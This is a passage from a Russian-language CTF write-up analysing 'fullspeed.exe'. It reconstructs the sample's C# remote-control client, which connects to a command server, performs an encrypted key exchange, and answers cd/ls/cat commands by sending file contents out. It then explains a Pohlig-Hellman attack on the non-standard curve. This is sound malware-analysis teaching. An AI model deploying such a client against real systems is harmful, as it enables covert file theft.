Возможно, механизм **FLIRT** можно расширить или создать специализированный плагин для **IDA** при анализе **AOT** программ, который позволит восстанавливать имена таблиц и методов на основе значения **m_uHashCode**.

### Возвращение к описанию функции sub_140107BC0()
После проведённого вышеописанного анализа можно с уверенностью утверждать, что переменная **unk_14013FC68**, содержащая данные:
```
463F43CDC15079D91C4AB352F862D545B097C05DC765794A4F5A8BC54828DE86E7D6B7E4657348A9EF3C89711A5F226502E0627B60079931BA7878B6BB4B22A384F20484811BE84E080C73C7E87B4707AD835B1F04236ADED81F4C565839C1C4
```
представляет собой объект типа **String**. Такой подход в определении используемого типа данных можно распространить и на другие запутанные участки кода.

<figure style="text-align: center;">
	
	<figcaption>Код функции <strong>sub_140107BC0()</strong></figcaption>
</figure>

Следующие функции (строки: 21, 24, 27, 30, 33) предназначены для инициализации переменной **bigIntQ** типа **BigInteger** на основе строки **strParamQ**, содержащей шестнадцатеричное представление числа:
```cpp
BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigIntQ, strParamQ, 16);
```

С целью восстановления кода попробуем разобраться, что в данном случае означает **__ctor_1** и какая функция на языке **C#** будет соответствовать. Вспомним наш пример, в котором тоже использовали инициализацию переменной типа **BigInteger**:
```cs
byte[] byteArray = { 0x01, 0x02, 0x03, 0x04 };
BigInteger bigIntP = new BigInteger(byteArray);
```

Данной функции **BigInteger()** будет соответствовать конструктор следующего вида:
```cs
public BigInteger(byte[] bytes)
```

А в псевдокоде будет следующее представление:
```cs
BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_2(v1, v0);
```

Тут проглядывается некоторая зависимость от порядка (**N**) объявления перегруженной функции в исходном коде `\bc-csharp\crypto\src\math\BigInteger.cs` и от порядкового номера в названии функции (**__ctor_N**):
<figure style="text-align: center;">
	
	<figcaption>Список перегрузок конструктора <strong>BigInteger</strong> с индексами</figcaption>
</figure>

Представим данную информацию в тексте:
```
0	public BigInteger(string value)
1	public BigInteger(string str, int radix)
2	public BigInteger(byte[] bytes)
3	public BigInteger(byte[] bytes, bool bigEndian)
4	public BigInteger(byte[] bytes, int offset, int length)
5	public BigInteger(byte[] bytes, int offset, int length, bool b
6	public BigInteger(int sign, byte[] bytes)
7	public BigInteger(int sign, byte[] bytes, bool bigEndian)
8	public BigInteger(int sign, byte[] bytes, int offset, int leng
9	public BigInteger(int sign, byte[] bytes, int offset, int leng
10	public BigInteger(int sign, ReadOnlySpan<byte> bytes)
11	public BigInteger(int sign, ReadOnlySpan<byte> bytes, bool big
12	public BigInteger(int sizeInBits, Random random)
13	public BigInteger(int bitLength, int certainty, Random random)
```

Исходя из данной логики функции **BigInteger___ctor_1()** на языке **C#** будет следующее соответствие:
```cs
BigInteger bigIntQ = new BigInteger(strParamQ, 16);
```

С учетом полученных данных попробуем воссоздать исходный код класса **myEC** в проекте **client**. Учтем, что в этом классе реализован статический конструктор, а также объявлены статические переменные.
При восстановлении кода, приближённого к оригинальному содержимому файла **fullspeed.exe** важно соблюдать порядок объявления переменных в классе в соответствии со смещениями относительно базового адреса, как это отражено в псевдокоде.
Например, для хранения объекта типа **FpCurve** используется следующий вызов:
```cs
RhpAssignRefAVLocation((uint64 *)class_myEC + 1, (uint64)ellipticCurve)
```

Этот вызов означает, что объект **ellipticCurve** сохраняется по смещению +8 байт от начала области памяти, связанной с классом **myEC**. Это соответствует размещению переменной на первой позиции в списке статических членов класса, что следует учитывать при воссоздании исходного кода.
С учётом сказанного, будет получен следующий фрагмент исходного кода класса: 
```cs
class myEC
{
    public static FpCurve ellipticCurve;           //  0    0
    public static ECPoint ecPointGeneratorPoint;   //  1    8
    public static SecureRandom secureRandom;       //  2    16

    static myEC()
    {
        string strEncParamQ = "463F43CDC15079D91C4AB352F862D545B097C05DC765794A4F5A8BC54828DE86E7D6B7E4657348A9EF3C89711A5F226502E0627B60079931BA7878B6BB4B22A384F20484811BE84E080C73C7E87B4707AD835B1F04236ADED81F4C565839C1C4";
        string strParamQ = DecodeEncryptData(strEncParamQ);
        BigInteger bigIntQ = new BigInteger(strParamQ, 16);

        string strEncParamA = "443644C595002F80181FB900FE6A8445E59592549366771F4F5B8BC24E7DD7D7E182E7EA307747F9EC3ADA22195C71670CE43A7B6551CC31EF287AE0EF4921A3DCF052848041EB1904097EC2BD2B4608F482531F5223698DDD4818550A3890C6";
        string strParamA = DecodeEncryptData(strEncParamA);
        BigInteger bigIntA = new BigInteger(strParamA, 16);

        string strEncParamB = "1C604ACFC8012F8A1C49E950FE3CD442E3C5C258C2312A1C1C58DD901A7FD0D5E3D4EBB861214EABEC6B88204F0A74620DE4652F60049838B42F2EE2E04C70A6DCA501898041E61D585A2ECDEC784652F4D7501D57223DD9DB191D050C399F90";
        string strParamB = DecodeEncryptData(strEncParamB);
        BigInteger bigIntB = new BigInteger(strParamB, 16);

        string strEncGenX = "153E449EC4047A8B1C1BBD50AA3CD540B0C69458C3667F4E1B5C8B9C1A7281D6E183E7BA65244FAEEA678F22100924670CE0677F630BCD6CBB7B22B3E91E21A2DDF307898344EF4C0C582D92B82E1456A5D35A4D00256ADCD81B4F505F33C398";
        string strGenX = DecodeEncryptData(strEncGenX);
        BigInteger bigIntGenX = new BigInteger(strGenX, 16);

        string strEncGenY = "143444C8C3577C89194DB804AC3E8243E2C0955FC46A781C1857DEC5187B85D1E7D3E0B935241AABED6B8D22480D2E3204EE372E32039738BD7D28E5B84876F9D5A35185D043EF480E5B7BC6EC231352F380071958216CDD881D1954013B9F92";
        string strGenY = DecodeEncryptData(strEncGenY);
        BigInteger bigIntGenY = new BigInteger(strGenY, 16);

        myEC.ellipticCurve = new FpCurve(bigIntQ, bigIntA, bigIntB);
        myEC.ecPointGeneratorPoint = ellipticCurve.CreatePoint(bigIntGenX, bigIntGenY);
        myEC.secureRandom = new SecureRandom();
    }

	public static string DecodeEncryptData(string inStr)
	{
	    byte[] bArray = Convert.FromHexString(inStr);
	    byte bKey = 0;
	    int intIteration = 0;
	    int intByteArrayLength = bArray.Length;
	
	    if (intByteArrayLength > 0)
	    {
	        do
	        {
	            bKey = (byte)(13 * bKey + 0x25);
	            bArray[intIteration++] ^= bKey;
	        }
	        while (intByteArrayLength > intIteration);
	    }
	    return Encoding.UTF8.GetString(bArray);
	}
}

namespace client
{
    internal class client
    {
        static void Main(string[] args)
        {
            // string strIPPort = "127.000.00.001;31337";
            string strEncIPPort = "143444D2C1522F964D4EA504F96B8C43E4C5905B";
            string strIPPort = myEC.DecodeEncryptData(strEncIPPort);

            Console.WriteLine("Hello, World!");

            byte[] byteArray = { 0x01, 0x02, 0x03, 0x04 };
            BigInteger bigIntP = new BigInteger(byteArray);
            Console.WriteLine(bigIntP);

            const string strIP = "127.0.0.1";
            const int port = 31337;

            TcpClient tcpClient;
            NetworkStream networkStream;

            tcpClient = new TcpClient(strIP, port);
            networkStream = tcpClient.GetStream();
        }
    }
}
```

В результате компиляции программы и её анализа в **IDA** можно убедиться в схожести её структуры с исследуемым файлом **fullspeed.exe**. Кроме того, удалось получить информацию о названиях функций, отвечающих за инициализацию и доступ к статическим данным класса **myEC**:
<figure style="text-align: center;">
	
	<figcaption>Проверка вызова конструктора класса и инициализация статических полей</figcaption>
</figure>

Пример кода, отвечающего за инициализацию и доступ к статическим данным класса **myEC**:
```cpp
  if ( *(&___NONGCSTATICS_client_myEC__ - 1) )
    _GetGCStaticBase_client_myEC();
  v11 = ___GCSTATICS_client_myEC__;
```

Теперь если вернуться к информации о количестве раз которое функция **sub_140001ED4()** встречается, можно предположить, что в классе исследуемой программы **fullspeed.exe** реализовано шесть методов, принадлежащих классу **myEC**. На основании анализа скомпилированной версии программы и полученного псевдокода у нас есть достаточно данных, чтобы привести исследуемую функцию **sub_140107BC0()** к более понятному виду:
<figure style="text-align: center;">
	
	<figcaption>Код функции <strong>sub_140108AC0()</strong> после переименования функций и переменных</figcaption>
</figure>

Подытожим назначение статического конструктора **sub_140107BC0()** класса:
+ осуществляет расшифровку параметров эллиптической кривой над конечным полем простого порядка: модуль поля $q$, параметры $a$ и $b$ эллиптической кривой:
$$
y^2 \equiv x^3 + a x + b \pmod{q}
$$
+ осуществляет расшифровку координат $x$ и $y$;
+ на основании имеющихся параметров эллиптической кривой ($q$, $a$ и $b$) и координат ($x$ и $y$) создает генераторную точку ($G$), используемую в дальнейшем для создания открытого ключа клиента ($Q_{\text{cli}}$).

### Возвращение к описанию функции sub_140108AC0()

<figure style="text-align: center;">
	
	<figcaption>Функция <strong>sub_140108AC0()</strong></figcaption>
</figure>

После завершения выполнения конструктора класса **myEC** управление возвращается в функцию **sub_140108AC0()**, где происходит расшифровка строки `143f41d2c05427964848a505f9698c43e4c5905b` (строка 26). В результате чего получены сетевые реквизиты подключения `192.168.56.103;31337`. Стоит отметить, что строке `143f41d2c05427964848a505f9698c43e4c5905b` соответствует шестнадцатеричное представление (каждому символу соответствует два байта):
```
31003400330066003400310064003200630030003500340032003700390036003400380034003800610035003000350066003900360039003800630034003300650034006300350039003000350062
```

После разбиения строки с сетевыми реквизитами на два значения IP-адрес и порт подключения создаются объекты для установления TCP-соединения с удалённым узлом – **TcpClient** (строка 56) и **NetworkStream** (строка 58), который представляет поток данных для чтения и записи по установленному соединению.
Основная часть действий в данной функции закончена, но в конце имеется две функции которые из проделанного исследования можно назвать **KeyExchange()** (строка 60) и **GetCommand()** (строка 61). Данные функции будут разобраны чуть позже. Преобразуем псевдокод с учетом восстановленного функционала:
<figure style="text-align: center;">
	
	<figcaption>Псевдокод функции <strong>sub_140108AC0()</strong> после переименования</figcaption>
</figure>

С целью взаимодействия с серверной частью, функционирующей на локальной машине, можно пропатчить исполняемый файл **fullspeed.exe** заменив **IP-адрес** на адрес обратной связи – `127.000.000.001`. После шифрования строки `127.000.00.001;31337`с помощью функции **DecodeEncryptData()** будет получена следующая строка `143444d2c1522f964d4ea504f96b8c43e4c5905b`. В шестнадцатеричном представлении и с отведением двух байт на символ получим следующий массив:

```
31003400330034003400340064003200630031003500320032006600390036003400640034006500610035003000340066003900360062003800630034003300650034006300350039003000350062
```

Смена адреса повлечёт за собой следующие изменения:
<figure style="text-align: center;">
	
	<figcaption>Различия после изменения IP-адреса</figcaption>
</figure>

Приведем восстановленный код функции **sub_140108AC0()**:
```cs
public static void Run()
{
    string strEncIPPort = "143444D2C1522F964D4EA504F96B8C43E4C5905B";
    // string strIPPort = "127.000.00.001;31337";
    string strIPPort = myEC.DecodeEncryptData(strEncIPPort);

    string strEncSeparation = "1E";
    string strSeparation = myEC.DecodeEncryptData(strEncSeparation);

    string[] substrings = strIPPort.Split(strSeparation);

    string strIP = substrings[0];
    string strPort = substrings[1];
    int intPort = int.Parse(strPort);

    myEC.tcpClient = new TcpClient(strIP, intPort);
    myEC.networkStream = myEC.tcpClient.GetStream();

    myEC.KeyExchange();
    myEC.GetCommand();
}
```

В следующих разделах будет подробно рассмотрен функционал методов **KeyExchange()** и **GetCommand()**.

### Исследование функции KeyExchange()
Название функции напрямую отражает её назначение – реализация механизма обмена ключами. Рассмотрим этапы этого обмена.

#### Шаг 1. Расшифровка ключа XOR
Первым шагом осуществляется расшифровка ключа используемого для шифрования и дешифровки обмениваемыми параметрами (координаты публичного ключа клиента $x_{\text{cli}}$ и $y_{\text{cli}}$ и сервера $x_{\text{serv}}$ и $y_{\text{serv}}$, подробнее о них поговорим далее):

```cs
// string strXorKey = "133713371337133713371337133713371337133713371337133713371337133713371337133713371337133713371337";
string strEncXorKey = "143540CBC0512C8F4C4DB803F8698447E4C5905B90617C1F1C5D88934879D4D7B4D5E0EB60714CAFEC6DD8231809246704E5307B30019C3FBC7D28B3E81974F7D4F5008B8011EC4F0C0D78C3B8294407A485501B50213CDFDC1D485308399497";
string strXorKey = DecodeEncryptData(strEncXorKey);
BigInteger bigXorKey = new BigInteger(strXorKey, 16);
```

#### Шаг 2. Генерация приватного ключа клиента
Создаётся приватный ключ клиента ($d_{\text{cli}}$), длина которого 128 бит:
```cs
BigInteger bigIntClientPrivateKey = GeneratePrivateKey(128);
```

Функция генерации:
```cs
public static BigInteger GeneratePrivateKey(int privateKeyBitLength)
{
    BigInteger bigIntRandomPrivateKey;
    do
    {
        SecureRandom secureRandom = myEC.secureRandom;
        bigIntRandomPrivateKey = new BigInteger(privateKeyBitLength, secureRandom);
    }
    while (bigIntRandomPrivateKey.CompareTo(BigInteger.Zero) == 0);

    return bigIntRandomPrivateKey;
}
```

#### Шаг 3. Вычисление публичного ключа клиента
Публичный ключ клиента ($Q_{\text{cli}}$) вычисляется умножением генераторной точки ($G$) на приватный ключ ($d_{\text{cli}}$) :
$$
Q_{\text{cli}} = d_{\text{cli}} \cdot G
$$
```cs
Org.BouncyCastle.Math.EC.ECPoint ecPointClientPublicKey = myEC.ecPointGenPoint.Multiply(bigIntClientPrivateKey);
```

#### Шаг 4. Подготовка и отправка координат открытого ключа клиента
Далее осуществляется обмен не самим открытым ключом $Q_{\text{cli}}$, а его координатами $x_{\text{cli}}$ и $y_{\text{cli}}$, полученными после нормализации $Q_{\text{cli}}$:
```cs
Org.BouncyCastle.Math.EC.ECPoint ecPointClientPublicKeyNormolized = ecPointClientPublicKey.Normalize();

BigInteger bigIntAffineClientX = ecPointClientPublicKeyNormolized.AffineXCoord.ToBigInteger();
BigInteger bigIntAffineClientXXor = bigIntAffineClientX.Xor(bigXorKey);

bigIntAffineClientXXor.ToByteArrayUnsigned(bArrayBuffer);
myEC.networkStream.Write(bArrayBuffer);

BigInteger bigIntAffineClientY = ecPointClientPublicKeyNormolized.AffineYCoord.ToBigInteger();

BigInteger bigIntAffineClientYXor = bigIntAffineClientY.Xor(bigXorKey);

bigIntAffineClientYXor.ToByteArrayUnsigned(bArrayBuffer);
myEC.networkStream.Write(bArrayBuffer);
```

Нормализация точки **ecPointClientPublicKey** ($Q_{\text{cli}}$) необходима для получения корректных аффинных координат $x$ и $y$, которые используются при передаче, сравнении или сериализации публичного ключа.

#### Шаг 5. Приём координат публичного ключа сервера
Далее принимаются координаты $x_{\text{serv}}$ и $y_{\text{serv}}$ точки публичного ключа сервера $Q_{\text{serv}}$:
```cs
myEC.networkStream.Read(bArrayBuffer);
BigInteger bigIntServerXXor = new BigInteger(1, bArrayBuffer, 0, 48, true);
BigInteger bigIntServerX = bigIntServerXXor.Xor(bigXorKey);
myEC.networkStream.Read(bArrayBuffer);
BigInteger bigIntServerYXor = new BigInteger(1, bArrayBuffer, 0, 48, true);
BigInteger bigIntServerY = bigIntServerYXor.Xor(bigXorKey);

Org.BouncyCastle.Math.EC.ECPoint ecPointServerPublic = myEC.ellipticCurve.CreatePoint(bigIntServerX, bigIntServerY);
```

#### Шаг 6. Вычисление общего секрета
После обмена координатами клиента ($x_{\text{cli}}$, $y_{\text{cli}}$) и сервера ($x_{\text{serv}}$, $y_{\text{serv}}$) осуществляется вычисление общего секрета ($S$):
```cs
Org.BouncyCastle.Math.EC.ECPoint ecPointSharedSecret = ecPointServerPublic.Multiply(bigIntClientPrivateKey).Normalize();
```

Благодаря свойству коммутативности умножения точки на скаляр в эллиптической криптографии, обе стороны, обмениваясь публичными ключами и используя свои приватные, получают одинаковый общий секрет:
$$
S = d_{\text{serv}} \cdot Q_{\text{cli}} = d_{\text{cli}} \cdot Q_{\text{serv}}
$$
$$
S = d_{\text{serv}} \cdot (d_{\text{cli}} \cdot G) = d_{\text{cli}} \cdot (d_{\text{serv}} \cdot G)
$$
Это свойство лежит в основе корректности протокола обмена ключами, такого как **ECDH** (Elliptic Curve Diffie–Hellman).

#### Шаг 7. Инициализация поточного шифра ChaCha20
Заключительным этапом является инициализация симметричного алгоритма шифрования **ChaCha20**. В качестве параметров ключа шифрования и вектора инициализации берется значение хеша вычисленного по алгоритму **SHA512** на основании значения координаты $x_{\text{S}}$ от точки общего секрета **ecPointSharedSecret** ($S$). Ключ шифрования это первые 32 байта значения координаты $x_{\text{S}}$, вектор инициализации это следующие 8 байт:
```cs
BigInteger bigIntSharedAffinX = ecPointSharedSecret.AffineXCoord.ToBigInteger();
bigIntSharedAffinX.ToByteArrayUnsigned(bArrayBuffer);

myEC.iStreamCipher = new ChaChaEngine(20);

byte[] bArrayHashSHA512 = SHA512.HashData(bArrayBuffer);

byte[] bArrayKey = new byte[32];
Array.Copy(bArrayHashSHA512, bArrayKey, 32);

byte[] bArrayIV = new byte[8];
Array.Copy(bArrayHashSHA512, 32, bArrayIV, 0, 8);

KeyParameter paramsKey = new KeyParameter(bArrayKey);
ParametersWithIV paramsIv = new ParametersWithIV(paramsKey, bArrayIV);

myEC.iStreamCipher.Init(true, paramsIv);
```

#### Шаг 8. Проверка корректности обмена
Для верификации успешного установления канала связи клиент принимает зашифрованную строку и сравнивает её с эталонной строкой – **verify**:
```cs
string strReceived = myEC.ReceiveDecrypted();

// string strVerify = "verify";
string strEncVerify = "53630195971b";
string strVerify = myEC.DecodeEncryptData(strEncVerify);

if (!strReceived.Equals(strVerify))
{
    // string strnVerifyFailed = "verify failed";
    string strnEncVerifyFailed = "53630195971b3fde1c17e751ad";
    string strnVerifyFailed = myEC.DecodeEncryptData(strnEncVerifyFailed);
    throw new InvalidOperationException(strnVerifyFailed);
}
SendAndEncrypt(strVerify);
```

Если расшифрованная строка совпадает с контрольным значением **verify**, считается, что процедура обмена ключами выполнена успешно, и можно безопасно продолжать дальнейшее взаимодействие с сервером.
### Исследование функции GetCommand()
После обмена общим ключом управление передается в функцию **GetCommand()**, которая обрабатывает команды, полученные от управляющего сервера. Количество поддерживаемых команд невелико:
+ **cd** – смена текущего каталога;
+ **ls** – отображение списка файлов и папок. При этом каталоги выводятся в блоке `=== dirs ===`, а файлы – в блоке `=== files ===`;
+ **cat** – отображение содержимого файла;
+ **exit** – завершение работы программы.

Восстановленный код функции **GetCommand()**:
```cs
private static void GetCommand()
{
    string strReceived;
    string[] strArraySplit;
    int intSizeArraySplit;

    while (true)
    {
        while (true)
        {
            while (true)
            {
                while (true)
                {
                    strReceived = myEC.ReceiveDecrypted();

                    // string strnPipe = "|";
                    string strEncPipe = "59";
                    string strPipe = myEC.DecodeEncryptData(strEncPipe);

                    strArraySplit = strReceived.Split(strPipe);
                    intSizeArraySplit = strArraySplit.Length;
                    if (intSizeArraySplit == 0)
                    {
                        throw new BadImageFormatException();
                    }

                    // string strCD = "cd";
                    string strEncCD = "4662";
                    string strCD = myEC.DecodeEncryptData(strEncCD);
                    if (!strArraySplit[0].Equals(strCD))
                    {
                        break;
                    }

                    if (intSizeArraySplit <= 1)
                    {
                        throw new BadImageFormatException();
                    }

                    Directory.SetCurrentDirectory(strArraySplit[1]);

                    // string strOK = "ok";
                    string strEncOK = "4a6d";
                    string strOK = myEC.DecodeEncryptData(strEncOK);

                    SendAndEncrypt(strOK);
                }

                // string strLS = "ls";
                string strEncLS = "4975";
                string strLS = myEC.DecodeEncryptData(strEncLS);
                if (!strArraySplit[0].Equals(strLS))
                {
                    break;
                }
                StringBuilder sbDirsFiles = new StringBuilder();

                // string strEncSeparatorDirs = "=== dirs ===";
                string strEncHeaderDirs = "183b4edc950b6dcb5d43b609";
                string strHeaderDirs = myEC.DecodeEncryptData(strEncHeaderDirs);
                sbDirsFiles.Append(strHeaderDirs);
                sbDirsFiles.Append(Environment.NewLine);

                string currentDirectory = Directory.GetCurrentDirectory();

                // string strEncSeparatorDirs = ".";
                string strEncSymbolPoint = "0b";
                string strSymbolPoint = myEC.DecodeEncryptData(strEncSymbolPoint);

                string[] strArrayDirectories = Directory.GetDirectories(currentDirectory, strSymbolPoint);
                int intAmountDirectories = strArrayDirectories.Length;
                if (intAmountDirectories > 0)
                {
                    for (int iter = 0; iter < intAmountDirectories; iter++)
                    {
                        sbDirsFiles.Append(strArrayDirectories[iter]);
                        sbDirsFiles.Append(Environment.NewLine);
                    }
                }

                // string strEncSeparatorDirs = "=== files ===";
                string strEncHeaderFiles = "183b4edc970b73dd0e5eb609f4";
                string strHeaderFiles = myEC.DecodeEncryptData(strEncHeaderFiles);
                sbDirsFiles.Append(strHeaderFiles);
                sbDirsFiles.Append(Environment.NewLine);

                string[] strArrayFiles = Directory.GetFiles(currentDirectory, strSymbolPoint);
                int intAmountFiles = strArrayFiles.Length;
                if (intAmountFiles > 0)
                {
                    for (int iter = 0; iter < intAmountFiles; iter++)
                    {
                        sbDirsFiles.Append(strArrayFiles[iter]);
                        sbDirsFiles.Append(Environment.NewLine);
                    }
                }

                string strOut = sbDirsFiles.ToString();
                SendAndEncrypt(strOut);
            }

            // string strCat = "cat";
            string strEncCat = "466707";
            string strCat = myEC.DecodeEncryptData(strEncCat);
            if (!strArraySplit[0].Equals(strCat))
            {
                break;
            }
            if (intSizeArraySplit <= 1)
            {
                throw new BadImageFormatException();
            }

            byte[] byteArrayTemp = ReadFile(strArraySplit[1]);
            string strBaseData = Convert.ToBase64String(byteArrayTemp);
            SendAndEncrypt(strBaseData);
        }
        // string strExit = "exit";
        string strEncExit = "407e1a88";
        string strExit = myEC.DecodeEncryptData(strEncExit);
        if (strArraySplit[0].Equals(strExit))
        {
            return;
        }

        // string strBadCmd = "bad cmd";
        string strEncBadCmd = "476717dc920f7b";
        string strBadCmd = myEC.DecodeEncryptData(strEncBadCmd);
        SendAndEncrypt(strBadCmd);
    }
}
```

В результате анализа **fullspeed.exe** становится очевидным, что флаг не содержится непосредственно в исполняемом файле, следовательно, он находится в трафике.
Раз флаг находится в файле с трафиком и есть понимание, что файл **fullspeed.exe** осуществляет зашифрованное соединение с целью выполнения команд от центра удаленного управления, становится очевидным, что флаг передаётся в виде ответа на команду, например, **cat**, и содержится в зашифрованном трафике.
Таким образом, можно сделать важный вывод: флаг передаётся в сети в зашифрованном виде, и его извлечение возможно только при наличии уязвимостей в реализации криптографических протоколов. Подтвердить это предположение можно, лишь исследовав применённые алгоритмы, параметры их инициализации и способы генерации ключей.

### Финальная генерация и применение FLIRT-сигнатур
После восстановления логики работы **fullspeed.exe** в проекте **client**, скомпилируем его для платформы **win-x86**. На основе отладочных символов и исполняемого файла будут созданы **FLIRT-сигнатуры**, в количестве 5214.
После добавления этих сигнатур в проект **IDA** с файлом **fullspeed.exe будет** распознано 4222 функции. Дополнительно, при подключении сигнатур **BouncyCastle.Cryptography.pat** и **BouncyCastle.Crypto.Tests.pat**, будут распознаны ещё 46 и 379 функций соответственно. В результате общее количество определённых функций составит 4647.
<figure style="text-align: center;">
	
	<figcaption>Информация о количестве распознанных функций</figcaption>
</figure>

## Исследование эллиптических кривых
Для начала проверим по имеющимся параметрам (модуль поля $q$, коэффициенты $a$ и $b$ и координаты $x$ и $y$ генераторной точки $G$) является ли эллиптическая кривая стандартизированной. В ходе анализа, включая поиск на [neuromancer.sk](https://neuromancer.sk/std/), а также изучение открытых исходных кодов криптографических библиотек (таких как **OpenSSL**, **BoringSSL**, **libsodium**, **mbedTLS** и др.), аналогов данной кривой обнаружено не было. Использование нестандартизированных эллиптических кривых может быть опасным, такие кривые потенциально содержат скрытые уязвимости или создавались с умыслом их внедрения. Поэтому важно изучить свойства заданной кривой, прежде чем полагаться на её криптостойкость.

### Параметры поля
Для анализа параметров удобно использовать **SageMath** – мощная математическая среда с открытым исходным кодом, объединяющая сотни математических библиотек и пакетов. Чтобы упростить её развёртывание и использование, можно воспользоваться **Docker**.

Исходные параметры эллиптической кривой:
```python
from sage.all import *

# Параметры конечного поля и эллиптической кривой
prime_field_modulus = 0xc90102faa48f18b5eac1f76bb40a1b9fb0d841712bbe3e5576a7a56976c2baeca47809765283aa078583e1e65172a3fd

curve_param_A = 0xa079db08ea2470350c182487b50f7707dd46a58a1d160ff79297dcc9bfad6cfc96a81c4a97564118a40331fe0fc1327f
curve_param_B = 0x9f939c02a7bd7fc263a4cce416f4c575f28d0c1315c4f0c282fca6709a5f9f7f9c251c9eede9eb1baa31602167fa5380

base_point_x = 0x087b5fe3ae6dcfb0e074b40f6208c8f6de4f4f0679d6933796d3b9bd659704fb85452f041fff14cf0e9aa7e45544f9d8
base_point_y = 0x127425c1d330ed537663e87459eaa1b1b53edfe305f6a79b184b3180033aab190eb9aa003e02e9dbf6d593c5e3b08182
```

По имеющимся параметрам можно проверить модуль поля и порядок эллиптической кривой, являются они простыми числами или нет.

```python
# Создание конечного поля и эллиптической кривой
F = GF(prime_field_modulus)
E = EllipticCurve(F, [curve_param_A, curve_param_B])

# Проверки на простоту параметров и поля
print(f"Проверка: модуль конечного поля q является простым? {is_prime(prime_field_modulus)}")

# Порядок группы точек кривой
curve_order = E.order()
print(f"Порядок группы точек эллиптической кривой: {curve_order}")
print(f"Длина порядка кривой в битах: {curve_order.nbits()}")
print(f"Проверка: порядок кривой является простым? {curve_order.is_prime()}")

# Создание базовой точки генератора
base_point = E.point((base_point_x, base_point_y))

# Порядок генеративной точки и его битовая длина
base_point_order = base_point.order()
base_point_order_bits = base_point_order.nbits()

print(f"Порядок базовой генеративной точки: {base_point_order}")
print(f"Длина порядка генеративной точки в битах: {base_point_order_bits}")
print(f"Проверка: порядок генеративной точки является простым? {base_point_order.is_prime()}")
```

В результате мы получаем, что $q$ это простое число, порядок кривой (**curve_order**) совпадает с порядком генеративной точки (**base_point_order**). Это означает, что выбранная точка порождает всю группу точек на кривой, и группа является циклической. Сам порядок группы является составным числом длиной 384 бита:
```
Проверка: модуль конечного поля q является простым? True
Порядок группы точек эллиптической кривой: 30937339651019945892244794266256713890440922455872051984762505561763526780311616863989511376879697740787911484829297
Длина порядка кривой в битах: 384
Проверка: порядок кривой является простым? False
Порядок базовой точки генератора: 30937339651019945892244794266256713890440922455872051984762505561763526780311616863989511376879697740787911484829297
Длина порядка базовой точки в битах: 384
Проверка: порядок базовой точки является простым? False
```

Поскольку порядок генеративной точки является составным числом, его можно разложить на простые множители. Если среди них присутствуют относительно небольшие простые числа, становится возможным применение атаки Полига-Хеллмана.

### Теория атак на эллиптические кривые с малыми порядками
Для начала вспомним как создается открытый ключ ($Q$):
$$
Q = d \cdot G
$$

Где $d$ – приватный ключ, $G$ – базовая точка на кривой.

Метод Полига-Хеллмана опирается на то, что если порядок группы $n$ разлагается на произведение степеней простых чисел $p_i$ со степенями $e_i$, то вычисление дискретного логарифма можно упростить, решая его в подгруппах меньших порядков. Представим разложение порядка группы на простые множители:
$$
n = \prod_{i=1}^k p_i^{e_i}
$$

Тогда задача сводится к вычислению дискретного логарифма в каждой из подгрупп порядка $p_i^{e_i}$. Для этого определим соответствующие генеративные точки $G_i$ и открытые ключи $Q_i$:
$$
G_i = \frac{n}{p_i^{e_i}} G, \quad
Q_i = \frac{n}{p_i^{e_i}} Q
$$

В этих подгруппах можно найти частичный приватный ключ $d_i$:
$$
d_i = \log_{G_i} Q_i
$$

Так как порядок факторизуется то закрытый ключ $d$ удовлетворяет системе уравнений:
$$
\begin{cases}
d \equiv d_1 \pmod{p_1^{e_1}} \\
d \equiv d_2 \pmod{p_2^{e_2}} \\
\vdots \\
d \equiv d_k \pmod{p_k^{e_k}} \\
\end{cases}
$$

С помощью китайской теоремы об остатках можно восстановить $d$ по модулю произведения всех $p_i^{e_i}$.

### Применение к нашей кривой
Рассмотрим исследуемую эллиптическую кривую и разложим порядок базовой точки на простые множители. Код в **SageMath**:
```python
factors = base_point_order.factor()

factor_str = "n = " + " * ".join([f"{p}^{e}" for p, e in factors])
print(factor_str)
```

Будет следующая факторизация:
$$
\begin{align*}
n =\,& 35809^1 \cdot 46027^1 \cdot 56369^1 \cdot 57301^1 \cdot 65063^1 \cdot 111659^1 \cdot 113111^1 \cdot \\
& 7072010737074051173701300310820071551428959987622994965153676442076542799542912293^1
\end{align*}
$$

Итак, мы имеем семь малых делителей и один большой. Последний из них – достаточно большой, чтобы предотвратить прямую реализацию атаки Полига-Хеллмана во всём пространстве. На первый взгляд может показаться, что такое распределение простых множителей делает атаку невозможной. Однако стоит оценить произведение малых простых множителей и сравнить его с длиной закрытого ключа. Из анализа файла известно, что длина приватного ключа составляет 128 бит. Это означает, что произведение малых множителей может покрыть значительную часть пространства ключа и быть использовано в частичном восстановлении ключа с последующим перебором (например, через метод поглощения по модулю малого порядка).

```python
mul_small_prime = 1
for p, e in factors[:-1]:
    mul_small_prime *= p^e

print(f"Длина произведения малых делителей в битах: {mul_small_prime.nbits()}")

large_prime = 7072010737074051173701300310820071551428959987622994965153676442076542799542912293
print(f"Длина большого делителя в битах: {large_prime.bit_length()}")
```

Порядок, соответствующий произведению малых простых делителей, имеет длину 112 бит (в то время как порядок большого делителя – 272 бита), и хотя этого недостаточно для восстановления всего закрытого ключа длиной 128 бит, мы можем использовать это произведение для нахождения решения $d_{\text{small}}$ в подгруппах малых порядков (первые семь делителей) по модулю этих множителей:
$$
\begin{cases}
d_{\text{small}} \equiv d_1 \pmod{35809^{1}} \\
d_{\text{small}} \equiv d_2 \pmod{46027^{2}} \\
\vdots \\
d_{\text{small}} \equiv d_7 \pmod{113111^{1}} \\
\end{cases}
$$

Система этих сравнений может быть решена с использованием Китайской теоремы об остатках, что позволяет однозначно восстановить значение приватного ключа $d$ по модулю произведения соответствующих простых степеней:
$$
d \equiv d_{\text{small}} \pmod {\prod_{i=1}^{7} p_i^{e_i}}
$$

Общее решение можно представить в виде:
$$
d = d_{\text{small}} + k \prod_{i=1}^{7} p_i^{e_i}, \quad \text{где } k = 0, 1, \dots, \left\lfloor \frac{d - d_{\text{small}}}{\prod_{i=1}^{7} p_i^{e_i}} \right\rfloor
$$

Такой подход известен как метод поглощения по модулю малого порядка: мы расширяем частичное решение $d_{\text{small}}$ на полное пространство возможных значений приватного ключа путём перебора $k$, при этом каждое значение проверяется на соответствие известному открытому ключу.
